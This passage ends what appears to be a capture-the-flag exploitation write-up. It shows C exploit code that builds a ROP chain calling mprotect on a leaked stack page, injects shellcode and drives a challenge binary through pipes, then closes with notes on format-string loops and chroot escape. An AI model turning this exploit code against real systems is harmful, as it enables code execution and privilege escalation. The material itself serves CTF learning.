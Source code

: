 ```c
        ct = 0;
        ptr[ct++] = rdi;
        ptr[ct++] = (leaked_stack>>12<<12)-0x1000;
        ptr[ct++] = rsi;
        ptr[ct++] = 0x1000;
        ptr[ct++] = rdx;
        ptr[ct++] = 7;
        ptr[ct++] = 0;
        ptr[ct++] = mprotect;
        ptr[ct++] = (leaked_stack>>12<<12)+(ct*8+8)-0x800;
        char *xxxz = yyy+ct*8;
        while(ct<0x100)
            ptr[ct++] =rdi+1; 
        memcpy(xxxz,shellphish,sizeof(shellphish));

        read(0,trash,0x10);
        write(fd_send[1],yyy,0x800);
        sleep(3);
    }
    else{
        close(fd_send[1]);
        close(fd_recv[0]);
        dup2(fd_send[0],0);
        dup2(fd_recv[1],1);
        setvbuf(stdin,0,2,0);
        setvbuf(stderr,0,2,0);
        setvbuf(stdout,0,2,0);
        if(LOCAL==1){
            char *new_envp[] = { "xxxxx=xxx", NULL };
            execve("./sina",0,new_envp);
        }
        else{
            // char *new_envp[] = { "LD_PRELOAD=./libc.so.6", NULL };
            char *new_envp[]= {"n132=n132",NULL};
            execve("./sina",0,new_envp);
        }
    }
}
int main() {
    puts("init");
    init();
    burte_force();
}
```

# 0x08 Epilogue
- Thank Kyle for this skill, it skill is very useful
- We can loop a format string vulnerability at most cases
- A practice of writing C-pwntools 
- Review the traditional "chroot escape"
- Learn more about `setcap/getcap`